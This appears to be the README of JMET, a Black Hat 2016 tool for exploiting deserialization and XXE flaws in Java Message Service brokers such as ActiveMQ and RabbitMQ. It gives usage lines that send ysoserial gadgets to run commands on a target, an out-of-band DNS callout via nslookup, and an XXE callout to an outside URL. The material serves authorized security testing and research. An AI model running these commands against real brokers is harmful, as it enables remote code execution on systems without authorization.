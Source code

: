 # JMET
The Java Message Exploitation Tool
```ascii
       ____  _______________
      / /  |/  / ____/_  __/
 __  / / /|_/ / __/   / /   
/ /_/ / /  / / /___  / /    
\____/_/  /_/_____/ /_/
```

# Decription
JMET was released at Blackhat USA 2016 and is outcome of Code White's research
efforts presented in the talk "Pwning Your Java Messaging With
Deserialization Vulnerabilities".
The goal of JMET is to make the exploitation of the Java Message Service (JMS) easy.
In the talk more than 12 JMS client implementations where shown, vulnerable to
deserialization attacks.
The specific deserialization vulnerabilities were found in implementations
of javax.jms.ObjectMessage message-types.
The following more or less complete list shows the vulnerable JMS broker client
libraries:
* Apache ActiveMQ
* Redhat/Apache HornetQ
* Oracle OpenMQ
* IBM WebSphereMQ
* Oracle Weblogic
* Pivotal RabbitMQ
* IBM MessageSight
* IIT Software SwiftMQ
* Apache ActiveMQ Artemis
* Apache QPID JMS
* Apache QPID Client
* Amazon SQS Java Messaging

For creation of gadgets used in the exploitation of deserialization vulnerabilities
JMET makes use of Chris Frohoffs' Ysoserial.

# Supprted JMS client libraries
* Apache ActiveMQ
* Redhat/Apache HornetQ
* Oracle OpenMQ
* IBM WebSphereMQ
* ~~Oracle Weblogic~~
* Pivotal RabbitMQ
* ~~IBM MessageSight~~
* IIT Software SwiftMQ
* Apache ActiveMQ Artemis
* Apache QPID JMS
* Apache QPID Client
* ~~Amazon SQS Java Messaging~~

# Dependencies
JMET depends on a lot of libraries :(. For details see the maven pom file.

# Installation
Just download jmet-0.1.0-all.jar from here or built it (see "Build instructions").

# Usage

```ascii
$ java -jar target/jmet-0.1.0-all.jar
ERROR d.c.j.JMET [main] Misconfiguration: Missing required options: [-C Custom script exploitation mode, -Y Deser exploitation mode, -X XXE exploitation mode], [-T topic name, -Q queue name], I
usage: jmet [host] [port]
 -C,--Custom <scriptname>         Custom script exploitation mode
 -f,--filter <scriptname>         filter script
 -I,--impl <arg>                  ActiveMQ| Artemis| WebSphereMQ| Qpid10|
                                  Qpid09| HornetQ| SwiftMQ| RabbitMQ|
                                  OpenMQ
 -pw,--password <pass>            password for authentication
 -Q,--Queue <name>                queue name
 -s,--substitute                  Substituation mode: Use §§ to pass
                                  ysoserial payload name to CMD
 -T,--Topic <name>                topic name
 -u,--user <id>                   user for authentication
 -v,--verbose                     Running verbose mode
 -X,--XXE <URL>                   XXE exploitation mode
 -Xp,--xxepayload <payloadname>   Optional: XXE Payload to use EXTERNAL|
                                  PARAMATER| DTD
 -Y,--ysoserial <CMD>             Deser exploitation mode
 -Yp,--payload <payloadname>      Optional: Ysoserial Payload to use
                                  BeanShell1| CommonsBeanutils1|
                                  CommonsCollections1|
                                  CommonsCollections2|
                                  CommonsCollections3|
                                  CommonsCollections4|
                                  CommonsCollections5| Groovy1|
                                  Hibernate1| Hibernate2| Jdk7u21| JSON1|
                                  ROME| Spring1| Spring2
 -Zc,--channel <channel>          channel name (only WebSphereMQ)
 -Zq,--queuemanager <name>        queue manager name (only WebSphereMQ)
 -Zv,--vhost <name>               vhost name (only AMQP-Brokers:
                                  RabbitMQ|QPid09|QPid10)
```
## Gadget exploiation mode
Create gadgets for executing "xterm" and send them all to queue "event".
As implementation ActiveMQ is choosen, the target system is "jmstarget" listening
on port 61616.
```bash
$ java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -Y xterm jmstarget 61616
```
To find out which gadget was executed you can use the "substitution"-mode with
 an Out-Of-Band channel like DNS. To pass the gadget name to your command to be
  executed use the "§§" string which then gets substituted with the gadget name.

```bash
$ java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "nslookup §§.yourdomain.com" jmstarget 61616
```
## XXE exploitation mode
The XXE exploition mode requires to specify an URL to be resolved as an
external entity. The XXE vectors are sent inside a TextMessage.
```bash
$ java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -X http://192.168.85.148:8081 jmstarget 61616
```
## Custom exploitation mode
The custom exploitation mode allows to run a custom JavaScript script.
The purpose of this mode is to support different serialization formats (JSON,etc.)
and custom payloads.

The following example script uses the XML (de)serialization library XStream.
The String "Object" is serialized to XML and put into an TextMessage using the
de.codewhite.jmet.target.JMSTarget.addTextPayload(String payloadName, String payloadText)-method.
Required libraries need to be places into the "external"-directory of JMET.
```javascript
function payload(target){

        var imports = new JavaImporter(java.io, java.lang, com.thoughtworks.xstream);
        with (imports) {

            xstream = new XStream();
            target.addTextPayload("test",xstream.toXML("Object"));

        }
}
```

## Filter scripts
Filter scripts are used for modifying "javax.jms.Message"-instances before sent
to the target destination.
The following Javascript changes the JMSPriority of every message, prints out
a string und returns the modified message back.
```javascript
function filter(message){

    message.setJMSPriority(3);
    print("Changed Priority")
    return message;

}
```

# Build instructions
Please put the following libraries of the commercial brokers into a
directory of your choice (e.g. DIR).

* com.ibm.mq.allclient.jar (WebSphere MQ)
* amqp.jar  (SwiftMQ)
* jms.jar (SwiftMQ)
* swiftmq.jar (SwiftMQ)

Then invoke maven with the property "commercial" set to your path.
```bash
mvn clean compile assembly:single -Dcommerical=DIR
```

If you don't want to use the commercial brokers at all you can just delete
the following files:
* src/main/java/de/codewhite/jmet/target/impl/WebSphereMQTarget.java
* src/main/java/de/codewhite/jmet/target/impl/SwiftMQTarget.java

```bash
  mvn clean compile assembly:single
```
# Disclaimer
JMET is a proof-of-concept tool for blackbox testing of JMS destinations.
Please use this tool with care and only when authorized.
Be aware that sending a invalid to a JMS destination might result in a denial-of-service
 state(DOS) of the target system.
 You have been warned !!!

# License
JMET is released under The MIT License (MIT).
